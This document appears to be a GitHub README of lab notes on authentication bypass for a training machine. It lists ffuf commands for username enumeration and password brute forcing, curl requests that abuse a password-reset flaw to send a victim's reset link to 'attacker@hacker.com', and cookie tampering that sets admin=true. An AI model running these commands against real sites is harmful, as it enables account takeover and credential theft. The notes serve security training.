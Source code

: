 # Authentication-Bypass ![loginReq](https://user-images.githubusercontent.com/94301241/175791940-dea54eb2-cfb2-4cd5-885d-6ac5f2dc6190.png)

# 🤢Username Enumeration
  ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type:       application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
  
# ▶️ Brute Force
  Example1: ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X     POST -d       "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
  Example2: ffuf -w /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -X POST -d "username=steve&     password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.170.164/customers/login -fc 200

# ▶️Logic Flaw 
  i. curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d                 'username=robert'
  ii. curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d                 'username=robert&email=attacker@hacker.com'
  iii. curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
  
 # 🍪Cookie Tampering 
  i.  curl http://MACHINE_IP/cookie-test
  ii. curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
  iii. curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
